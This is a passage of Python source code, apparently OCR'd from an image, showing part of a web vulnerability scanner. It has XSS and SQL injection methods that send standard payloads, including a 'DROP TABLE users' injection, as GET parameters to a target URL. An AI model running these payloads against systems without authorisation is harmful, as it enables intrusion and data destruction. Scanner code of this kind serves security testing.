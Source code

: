 ```python
                except Exception as e:
                    print(f"[!] Scan error: {e}")
        
        return self.generate_comprehensive_report()
    
    def scan_xss(self):
        """XSS vulnerability scanning"""
        print("[*] Scanning for XSS vulnerabilities...")
        xss_payloads = [
            '<script>alert("XSS")</script>',
            '<img src=x onerror=alert("XSS")>',
            '<svg onload=alert("XSS")>',
            '"><script>alert("XSS")</script>',
            "';alert('XSS');//"
        ]
        
        # Test common parameters
        params = ['q', 'search', 'name', 'comment', 'message', 'input']
        
        for param in params:
            for payload in xss_payloads:
                try:
                    response = self.session.get(
                        self.target_url,
                        params={param: payload},
                        timeout=10
                    )
                    
                    if payload in response.text:
                        self.vulnerabilities['xss'].append({
                            'parameter': param,
                            'payload': payload,
                            'url': response.url,
                            'method': 'GET'
                        })
                        print(f"[+] XSS found: {param} -> {payload[:30]}...")
                        
                except Exception:
                    continue
    
    def scan_sqli(self):
        """SQL Injection vulnerability scanning"""
        print("[*] Scanning for SQL Injection vulnerabilities...")
        sqli_payloads = [
            "'",
            "' OR '1'='1",
            "' UNION SELECT 1,2,3--",
            "'; DROP TABLE users--",
            "' AND SLEEP(5)--"
        ]
        
        params = ['id', 'user', 'search', 'category', 'page']
        
        for param in params:
            for payload in sqli_payloads:
                try:
                    start_time = time.time()
                    response = self.session.get(
                        self.target_url,
                        params={param: payload},
                        timeout=15
                    )
                    response_time = time.time() - start_time
```